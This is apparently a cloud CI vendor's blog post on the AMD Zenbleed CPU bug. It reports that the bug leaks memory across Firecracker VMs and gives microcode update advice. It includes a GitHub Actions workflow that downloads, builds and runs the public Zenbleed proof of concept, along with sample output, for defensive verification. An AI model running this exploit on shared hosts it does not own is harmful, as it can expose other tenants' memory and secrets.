 ```yaml
---
title: Update your AMD hosts now to mitigate the Zenbleed exploit
description: "Learn how to update the microcode on your AMD CPU to avoid the Zenbleed exploit."
tags:
- images
- packer
- qemu
- kvm
author_img: alex
image: "/images/2023-07-zenbleed/background.png"
date: "2023-07-31"
---
```


On 24th July 2023, [The Register covered a new exploit](https://www.theregister.com/2023/07/24/amd_zenbleed_bug/) for certain AMD CPUs based upon the Zen architecture. The exploit, dubbed Zenbleed, allows an attacker to read arbitrary physical memory locations on the host system. It works by allowing memory to be read after it's been set to be freed up aka "use-after-free". This is a serious vulnerability, and you should update your AMD hosts as soon as possible.

Even more dangerous was the claim by The Register that any level of VM isolation prevents the exploit from working. This is not true. We tested the exploit with a sample GitHub Action running within Firecracker.

> "If you stick any emulation layer in between, such as Qemu, then the exploit understandably fails."

We proved this to be wrong, QEMU & Firecracker (both use KVM), Docker, etc are all affected in the same way as running a malicious process directly on the host.

To test this, we ran a GitHub actions matrix build that creates many VMs running different versions of K3s. About the same time, we triggered a build which runs a Zenbleed exploit PoC written by [Tavis Ormandy](https://twitter.com/taviso), a security researcher at Google.

We found that the exploit was able to read the memory of the host system, and that the exploit was able to read the memory of other VMs running on the same host.

```yaml
name: build

on:
    pull_request:
        branches:
        - '*'
    push:
        branches:
        - master
        - main
    workflow_dispatch:

jobs:
    build:
        name: specs
        runs-on: actuated
        steps:
        - uses: actions/checkout@v1
        - name: Download exploit
          run: |
            curl -L -S -s -O https://lock.cmpxchg8b.com/files/zenbleed-v5.tar.gz
            tar -xvf zenbleed-v5.tar.gz
            sudo apt install -qy build-essential make nasm
        - name: Build exploit
          run: |
            cd zenbleed
            make
            chmod +x ./zenbleed
        - name: Run exploit for 1000 pieces of data
          run: |
            ./zenbleed/zenbleed -m 1000
```

Full details of the exploit can be found on a microsite created by the security researcher who discovered the vulnerability. The `-m 1000` flag reads 1000 pieces of memory and then exits.

[Zenbleed by Tavis Ormandy](https://lock.cmpxchg8b.com/zenbleed.html#vulnerability)

We didn't see any secrets printed out during the scan, but we did see part of a public SSH key, console output from etcd running within K3s, and instructions from containerd. So we can assume anything that was within memory within one of the other VMs on the host, or even the host itself, could be read by the exploit.

![GHA output from the zenbleed exploit](/images/2023-07-zenbleed/gha.png)
> GHA output from the zenbleed exploit

## Mitigation

AMD has already released a mitigation for the Zenbleed exploit, which requires an update to the CPU's microcode.

[Ed Vielmetti](https://www.linkedin.com/in/edwardvielmetti/), Developer Partner Manager at Equinix told us that mitigation is three-fold:

1. There is an incoming BIOS update from certain vendors that will update the microcode.
2. Updating some OSes like the Ubuntu 20.04 and 22.04 will upgrade the microcode of the CPU.
3. There is a ["chicken bit"](https://www.reddit.com/r/linux/comments/15903hr/zenbleed_a_useafterfree_in_amd_zen2_processors/) that can be enabled which prevents the exploit from working.

I probably don't need to spell this out, but a system update looks like the following, and the reboot is required:

```bash
sudo apt update -qy && \
    sudo apt upgrade -yq && \
    sudo reboot 
```

![An update to the CPU microcode is required](/images/2023-07-zenbleed/microcode.png)

For some unknown reason, both of the Equinix AMD hosts that we use internally broke after running the OS upgrade, so I had to reinstall Ubuntu 22.04 using the dashboard. If for whatever reason the machine won't come up after the microcode update, then you should reinstall the Operating System (OS) using your vendor's rescue system or out of band console, both Equinix Metal and Hetzner have an "easy button" that you can click for this. If there is still an issue after that, reach out to your vendor's support team.

New machines provisioned after this date should already contain the microcode fix or have the "chicken bit" enabled. We provisioned a new AMD Epyc server on Equinix Metal to make sure, and as expected, thanks to their hard work - it was not vulnerable.

We offer 500 USD of free credit for new Equinix Metal customers to use with actuated, and Equinix Metal have also written up their own guide on workaround here:

* [An Update On the AMD Zen 2 CPU Vulnerability](https://deploy.equinix.com/blog/an-update-on-the-amd-zen-2-cpu-vulnerability/)

## Verifying the mitigation

Since actuated VMs use Firecracker, you should run the above workflow before and after to verify the exploit was a) present and b) mitigated.

![What it looks like when the mitigation is in place](/images/2023-07-zenbleed/mitigated.png)
> Above: What it looks like when the mitigation is in place

You can also run the exploit on the host by copying and pasting the commands from the GitHub Action above.

My workstation uses a Ryzen 9 CPU, so when I ran the exploit I just saw a blocking message instead of memory regions:

```bash
$ grep "model name" /proc/cpuinfo |uniq
model name	: AMD Ryzen 9 5950X 16-Core Processor

./zenbleed -m 100
*** EMBARGOED SECURITY ISSUE --  DO NOT DISTRIBUTE! ***
ZenBleed Testcase -- taviso@google.com

NOTE: Try -h to see configuration options

Spawning 32 Threads...
Thread 0x7fd0d40e8700 running on CPU 0
Thread 0x7fd0d38e7700 running on CPU 1
...
```

## Wrapping up

Actuated uses Firecracker, an open source Virtual Machine Manager that works with Linux KVM to run isolated systems on a host. We have verified that the exploit works on Firecracker, and that the mitigation works too. So whilst VM-level isolation and an immutable filesystem is much more appropriate than a container for CI, this is an example of why we must still be vigilant and ready to respond to security vulnerabilities. 

This is an unfortunate, and serious vulnerability. It affects bare-metal, VMs and containers, which is why it's important to update your systems as soon as possible.
